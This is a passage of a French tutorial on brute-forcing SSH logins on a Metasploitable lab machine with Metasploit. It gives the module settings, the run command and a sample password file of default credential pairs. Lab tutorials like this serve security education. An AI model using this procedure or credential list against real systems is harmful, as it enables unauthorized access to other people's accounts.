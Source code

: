     ```bash
    set VERBOSE true
    ```
5. Fournissez le fichier de mots de passe (USERPASS_FILE) :
    ```bash
    set USERPASS_FILE /home/user/passwords.txt
    ```

#### Étape 6: Lancement de l'attaque
1. Lancez l'attaque en utilisant la commande :
    ```bash
    run
    ```
   Surveillez les tentatives dans le terminal. Si l'attaque réussit, Metasploit retournera le nom d'utilisateur et le mot de passe corrects.

### Exemple de fichier de mots de passe
Voici à nouveau un exemple de fichier de mots de passe (nommé `passwords.txt`) que vous pouvez utiliser :
```plaintext
msfadmin msfadmin
root toor
user 123456
admin admin
```

### Exemple d'adresse IP de cible
- **Machine attaquante (Kali Linux)** : 192.168.0.2
- **Machine cible (Metasploitable)** : 192.168.0.5

Assurez-vous que les adresses IP correspondent à votre configuration réseau. Vous pouvez utiliser des adresses IP dans la même plage pour les machines virtuelles pour simplifier la configuration.

### Conclusion
Ce tutoriel montre comment réaliser une attaque par force brute en utilisant Metasploit sur un service SSH d'une machine Metasploitable. Utilisez ces techniques uniquement dans un environnement contrôlé et à des fins éducatives. Attaquer des systèmes sans autorisation est illégal et contraire à l'éthique.

